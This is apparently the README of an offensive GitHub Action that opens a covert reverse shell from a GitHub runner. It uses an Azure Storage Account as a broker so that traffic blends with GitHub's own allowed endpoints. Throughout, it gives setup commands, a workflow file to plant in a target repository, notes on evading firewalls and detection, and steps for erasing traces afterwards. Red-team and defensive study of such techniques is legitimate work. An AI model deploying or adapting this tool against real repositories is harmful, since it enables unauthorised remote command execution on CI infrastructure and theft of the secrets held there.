 # Azure Storage Account Reverse Shell

![Logo](resources/logo.jpg)

## 🏁 What this is and major use cases

This is a GitHub Action that can send a reverse shell from a GitHub runner to any internet connected device able to run python, utilizing Azure Storage Account as a broker - bypassing firewall rules in place on self-hosted runners.

This comes in handy in two cases: 

1. 🐱‍👤 **Red Team Exercise:**
   * All outgoing and "incoming" connections from the runner are made to `*.blob.core.windows.net`, so a high level of scrutiny is needed to detect this.
   * However, you might want to not use this action directly, but adapt the code into your own ;)
3. 💻 **Attacking self-hosted runners:**
   * Self-hosted runners should be hardened and not allow any outgoing connections other than the minimum required by the GitHub documentation.
   * The endpoint `*.blob.core.windows.net` has to be whitelisted even for firewall protected self-hosted runners, since GitHub uses Azure Storage Accounts for writing job summaries, logs, workflow artifacts, and caches (see [documentation](https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github)).
   * This is especially interesting for non-ephemeral runners, if you want to debug other workflow runs, too.
  
And this is what an incoming shell looks like:

![demo](resources/demo.png)

## How to use it

### Set up the Azure Storage Account

This is straightforward, you will need a resource group, open a Storage Account within it and then open a container within that one. Note down the names of the last two:

``` bash
az group create \
  --name <resource_group_name> \
  --location <location>

az storage account create \
  --resource-group <resource_group_name> \
  --name <storage_account_name> \
  --location <location> \
  --sku Standard_LRS

az storage container create \
  --resource-group <resource_group_name> \
  --account-name <storage_account_name>
  --name <container_name>
```

Now generate a SAS token that will allow for listing, reading, writing and deleting blobs for a limited time. This command will generate one that is valid for 30 minutes:

``` bash
az storage container generate-sas \
  --account-name <storage_account_name> \
  --name <container_name> \
  --permissions lrdw \
  --expiry $(date -u -d "+30 minutes" +"%Y-%m-%dT%H:%M:%SZ")
```

### Set up your client

> 💡 It is currently important to start the script before you trigger the reverse shell, since the script will only utilize the first incoming session after it started.

Set the values for the Storage Account, the container and the SAS token as environment variables:

``` bash
export AZ_STORAGE_ACCOUNT_NAME=<storage_account_name>
export AZ_STORAGE_CONTAINER_NAME=<container_name>
export AZ_STORAGE_SAS_TOKEN=<storage_sas_token>
```

Then run the client - it will query the Storage Account for an incoming shell every second:

``` bash
python3 client.py
```

### Set up (and trigger) the reverse shell

Include the following in your target repo into `.github/worflows/<filename>.yml` - the example is being triggered by `workflow_dispatch`, but use `push` or whatever fits the bill.

``` yml
on:
  <event_you_want_the_workflow_to_run_on>
  
jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will send a reverse shell via Azure Storage Account
    steps:
      - uses: offensive-actions/azure-storage-reverse-shell@<commit_hash_that_you_vetted_for_security_reasons>
        with:
          az-storage-account-name: '<storage_account_name>'
          az-storage-container-name: '<container_name>'
          az-storage-sas-token: '<storage_sas_token>'
```

### When you are done

**Ending the session from the agent's side:** per default, the reverse shell times out after 2 minutes of inactivity. This behaviour can be influenced by setting the `retry-interval` (default: `2` seconds) and the `max-retries` (default: `60`) when creating the  `.github/worflows/<filename>.yml`.

**Ending the session from the client's side:** Just type `exit` - the script will let the agent know and then terminate.

**Invalidate credentials:** You ~~can~~ should rotate the Storage Account keys to invalidate the SAS tokens generated earlier:

``` bash
az storage account keys renew \
  --account-name <storage_account_name> \
  --key key1

az storage account keys renew \
  --account-name <storage_account_name> \
  --key key2
```

**Housekeeping:** If needed:

* purge the GitHub Action history
* delete the workflow definition from the target repository
* delete the container, Storage Account and resource group

## How it works

* When the GitHub Action is executed on the target runner, it gathers intelligence about the context it is running in and puts it into a prompt format: `whoami@hostname:pwd$`.
* Then, it will write this to a blob in an Azure Storage Account, using the current unix timestamp as a prefix.
* On the attacker's side, a client script regularly polls for new blobs - and as soon as it finds one, it will load it and output the contents in the form of a terminal prompt.
* Then, every command written to this prompt will be written to a new blob in the Storage Account, using again the same unix timestamp as prefix.
* On the runner, the Action also polls for new blobs, loads their content (the commands from the client script), and writes the results back to the Storage Account.
* The client, pulling for new blobs, will receive this and output the result.

![diagram](resources/diagram.png)

> ❗ This reverse shell is, due to it's nature, not fully interactive. Thus, you will lose the shell if you send a command that requires interactive input.
> An example would be: if you send `sudo -l`, and a password is needed, you cannot enter it.
> Currently, this bricks the Action run and dependent on the runner in use, the process will live a long time.

## Why I do this

1. Because it's fun.
2. To learn stuff (see point 1).
3. Because I hope you might find this fun, too, and reach out with pull requests or comments, feauture requests, etc.

## Currently next planned steps

1. If timeout hits on the side of GitHub, the agent should send that information to the storage account, and the client should pick up on it.
2. The client should list all currently available shells instead of just showing the first one that is incoming after client start.
3. The agent should implement a timeout for commands that are executed, in case e.g. an interactive command has accidentaly been sent. If the timeout is hit, the agent should communicate that and resume operations.
4. The whole interaction should get logged into a file for compliance.
5. Check for windows and macOS runners, currently it's untested there.
